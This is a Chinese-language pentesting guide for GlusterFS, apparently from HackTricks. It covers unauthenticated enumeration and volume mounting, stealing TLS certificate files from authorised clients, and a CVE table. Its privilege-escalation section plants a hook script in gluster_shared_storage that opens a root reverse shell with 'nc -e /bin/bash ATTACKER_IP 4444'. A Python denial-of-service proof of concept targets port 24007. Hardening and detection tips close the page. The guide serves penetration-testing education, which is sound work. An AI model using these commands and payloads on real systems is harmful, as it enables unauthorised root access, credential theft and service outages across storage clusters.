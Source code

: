 # 24007-24008-24009-49152 - Pentesting GlusterFS

{{#include ../banners/hacktricks-training.md}}

## 基本信息

**GlusterFS** 是一个 **分布式文件系统**，将多个服务器的存储结合成一个 **统一的命名空间**。管理守护进程 (`glusterd`) 默认监听 **24007/TCP**，并指示从 **49152/TCP** 开始的数据平面砖块（每个砖块一个端口，递增）。9.x 之前的版本使用 **24008–24009/TCP** 进行砖块传输，因此您仍会在遗留集群中遇到这些端口。
```
PORT      STATE  SERVICE        VERSION
24007/tcp open   glusterd       GlusterFS (RPC)
49152/tcp open   gluster-brick  SSL (TLS optional)
```
> 提示：24007 即使在存储节点 **不** 导出任何卷时也会响应 RPC 调用；因此，该服务在大型基础设施中是一个可靠的支点目标。

## 枚举

在你的攻击机器上安装客户端工具：
```bash
sudo apt install -y glusterfs-cli glusterfs-client   # Debian/Ubuntu
```
1. **对等发现与健康**
```bash
# List peers (works without authentication in default setups)
gluster --remote-host 10.10.11.131 peer status
```
2. **卷侦察**
```bash
# Retrieve the list of all volumes and their configuration
gluster --remote-host 10.10.11.131 volume info all
```
3. **无权限挂载**
```bash
sudo mount -t glusterfs 10.10.11.131:/<vol_name> /mnt/gluster
```
如果挂载失败，请检查客户端上的 `/var/log/glusterfs/<vol_name>-<uid>.log`。常见问题包括：

* TLS 强制执行 (`option transport.socket.ssl on`)
* 基于地址的访问控制 (`option auth.allow <cidr>`)

### 证书故障排除

从任何授权客户端节点窃取以下文件并将其放置在 `/etc/ssl/`（或错误日志中显示的目录）：
```
/etc/ssl/glusterfs.pem
/etc/ssl/glusterfs.key
/etc/ssl/glusterfs.ca
```
---

## 已知漏洞 (2022-2025)

| CVE | 受影响版本 | 影响 | 备注 |
|-----|-------------------|--------|-------|
| **CVE-2022-48340** | 10.0–10.4, 11.0 | 在 `dht_setxattr_mds_cbk` 中的使用后释放，通过网络可达 | 远程 **DoS** 和可能的 RCE。已在 10.4.1 / 11.1 中修复。 |
| **CVE-2023-26253** | < 11.0 | FUSE 通知处理程序中的越界读取 | 通过精心制作的文件系统操作导致远程崩溃；公开的 PoC 可用。 |
| **CVE-2023-3775** | < 10.5 / 11.1 | 挂载 `gluster_shared_storage` 时权限验证不正确 | 允许任何未认证的客户端挂载管理员卷 – 导致下面解释的 **priv-esc**。 |

> 始终在 **每个节点** 上检查 `gluster --version`；部分升级后异构集群很常见。

### 利用 `gluster_shared_storage` (权限提升)

即使在最近的版本中，许多管理员仍然将特殊的 `gluster_shared_storage` 卷设置为全局可读，因为这简化了地理复制。该卷包含以 **root** 身份在每个节点上运行的 cronjob 模板。
```bash
# 1. Mount admin volume anonymously
mkdir /tmp/gss && sudo mount -t glusterfs 10.10.11.131:/gluster_shared_storage /tmp/gss

# 2. Drop malicious script that gets synchronised cluster-wide
cat <<'EOF' > /tmp/gss/hooks/1/start/post/test.sh
#!/bin/bash
nc -e /bin/bash ATTACKER_IP 4444 &
EOF
chmod +x /tmp/gss/hooks/1/start/post/test.sh

# 3. Wait until glusterd distributes the hook and executes it as root
```
如果 `hooks/1/` 不存在，请查找 `/ss_bricks/` – 精确路径可能会因主要版本而异。

### 拒绝服务 PoC (CVE-2023-26253)
```python
#!/usr/bin/env python3
# Minimal reproducer: sends malformed NOTIFY_REPLY XDR frame to 24007
import socket, xdrlib, struct
p = xdrlib.Packer(); p.pack_uint(0xdeadbeef)
with socket.create_connection(("10.10.11.131",24007)) as s:
s.send(struct.pack("!L", len(p.get_buffer())|0x80000000))
s.send(p.get_buffer())
```
运行脚本会导致 `glusterfsd` 在 11.0 之前崩溃。

---

## 加固与检测

* **升级** – 当前 LTS 为 11.1（2025 年 7 月）。所有上述 CVE 已修复。
* 为每个砖块启用 **TLS**：

```bash
gluster volume set <vol> transport.socket.ssl on
gluster volume set <vol> transport.socket.ssl-cert /etc/ssl/glusterfs.pem
```
* 使用 CIDR 列表限制客户端：

```bash
gluster volume set <vol> auth.allow 10.0.0.0/24
```
* 仅在 **私有 VLAN** 或通过 SSH 隧道暴露管理端口 24007。
* 监视日志：`tail -f /var/log/glusterfs/glusterd.log` 并配置 **audit-log** 功能（`volume set <vol> features.audit-log on`）。

---

## 参考

* [GlusterFS 安全公告](https://docs.gluster.org/en/latest/release-notes/#security)
* [CVE-2023-26253 PoC – github.com/tinynetwork/gluster-notify-crash](https://github.com/tinynetwork/gluster-notify-crash)
{{#include ../banners/hacktricks-training.md}}
